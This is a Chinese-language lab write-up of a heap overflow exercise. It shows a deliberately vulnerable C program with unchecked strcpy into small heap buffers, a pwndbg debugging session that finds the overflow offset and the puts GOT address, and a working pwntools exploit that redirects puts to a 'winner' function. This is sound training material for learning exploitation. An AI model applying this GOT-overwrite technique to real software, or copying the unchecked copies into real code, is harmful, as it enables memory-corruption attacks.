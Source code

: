 ﻿覆盖GOT
========================================

示例代码
----------------------------------------
::

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	#include <time.h>
	#include <unistd.h>

	struct heapStructure {
	  int priority;
	  char *name;
	};

	int main(int argc, char **argv) {
	  struct heapStructure *i1, *i2;

	  i1 = malloc(sizeof(struct heapStructure));
	  i1->priority = 1;
	  i1->name = malloc(8);

	  i2 = malloc(sizeof(struct heapStructure));
	  i2->priority = 2;
	  i2->name = malloc(8);

	  strcpy(i1->name, argv[1]);
	  strcpy(i2->name, argv[2]);

	  printf("and that's a wrap folks!\n");
	}

	void winner() {
	  printf(
		  "Congratulations, you've completed this level @ %ld seconds past the "
		  "Epoch\n",
		  time(NULL));
	}
		
编译环境：
	+ 系统：Linux kali 5.10.0-kali9-amd64 #1 SMP Debian 5.10.46-4kali1 (2021-08-09) x86_64 GNU/Linux
	+ 编译：gcc heap.c -o heap
	
调试过程
----------------------------------------
	::
	
		ragg2 -P 200 -r
		AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA

		gdb args heap AAABAACAADAAE.... BBBB
		
		b 23 再源码23行下断点，r运行
		查看heap
		pwndbg> hexdump 0x555555559290 0x90
		+0000 0x555555559290  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │....│....│!...│....│
		+0010 0x5555555592a0  01 00 00 00  00 00 00 00  c0 92 55 55  55 55 00 00  │....│....│..UU│UU..│
		+0020 0x5555555592b0  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │....│....│!...│....│
		+0030 0x5555555592c0  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
		+0040 0x5555555592d0  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │....│....│!...│....│
		+0050 0x5555555592e0  02 00 00 00  00 00 00 00  00 93 55 55  55 55 00 00  │....│....│..UU│UU..│
		+0060 0x5555555592f0  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │....│....│!...│....│
		+0070 0x555555559300  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │....│....│....│....│
		+0080 0x555555559310  00 00 00 00  00 00 00 00  f1 0c 02 00  00 00 00 00  │....│....│....│....│
		基本思路：
			1.代码strcpy下一个执行的函数是printf，即puts
			2.执行第一个strcpy覆盖0x5555555592e8位置为puts的got函数地址
			3.构造第二个参数为winner地址，执行第二个strcpy将puts位置got函数地址覆盖为winner地址。
			4.代码执行到printf位置，调用winner函数。
		pwndbg> n
		24        strcpy(i2->name, argv[2]);
		pwndbg> hexdump 0x555555559290 0x90
		+0000 0x555555559290  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │....│....│!...│....│
		+0010 0x5555555592a0  01 00 00 00  00 00 00 00  c0 92 55 55  55 55 00 00  │....│....│..UU│UU..│
		+0020 0x5555555592b0  00 00 00 00  00 00 00 00  21 00 00 00  00 00 00 00  │....│....│!...│....│
		+0030 0x5555555592c0  41 41 41 42  41 41 43 41  41 44 41 41  45 41 41 46  │AAAB│AACA│ADAA│EAAF│
		+0040 0x5555555592d0  41 41 47 41  41 48 41 41  49 41 41 4a  41 41 4b 41  │AAGA│AHAA│IAAJ│AAKA│
		+0050 0x5555555592e0  41 4c 41 41  4d 41 41 4e  41 41 4f 41  41 50 41 41  │ALAA│MAAN│AAOA│APAA│
		+0060 0x5555555592f0  51 41 41 52  41 41 53 41  41 54 41 41  55 41 41 56  │QAAR│AASA│ATAA│UAAV│
		+0070 0x555555559300  41 41 57 41  41 58 41 41  59 41 41 5a  41 41 61 41  │AAWA│AXAA│YAAZ│AAaA│
		+0080 0x555555559310  41 62 41 41  63 41 41 64  41 41 65 41  41 66 41 41  │AbAA│cAAd│AAeA│AfAA│
		覆盖偏移为0x38，查看puts的got地址：
		pwndbg> got
		GOT protection: Partial RELRO | GOT functions: 5
		[0x555555558018] strcpy@GLIBC_2.2.5 -> 0x7ffff7f38250 (__strcpy_avx2) ◂— mov    rcx, rsi
		[0x555555558020] puts@GLIBC_2.2.5 -> 0x555555555056 (puts@plt+6) ◂— push   1
		[0x555555558028] printf@GLIBC_2.2.5 -> 0x555555555066 (printf@plt+6) ◂— push   2
		[0x555555558030] time@GLIBC_2.2.5 -> 0x555555555076 (time@plt+6) ◂— push   3
		[0x555555558038] malloc@GLIBC_2.2.5 -> 0x7ffff7e612f0 (malloc) ◂— mov    rax, qword ptr [rip + 0x143be1]
		即0x555555558020，查看win函数地址为0x555555555294
			
编写EXP
----------------------------------------
	::
	
		from pwn import *
		elf = context.binary = ELF('./heap', checksec=False)
		#param1 = (b'A' * 40 + p64(elf.got['puts'])).replace(b'\x00', b'')
		#param2 = p64(elf.sym['winner']).replace(b'\x00', b'')
		param1 = (b'A' * 40 + p64(0x555555558020)).replace(b'\x00', b'')
		param2 = p64(0x555555555294).replace(b'\x00', b'')
		p = elf.process(argv=[param1, param2])
		print(p.clean().decode('latin-1'))
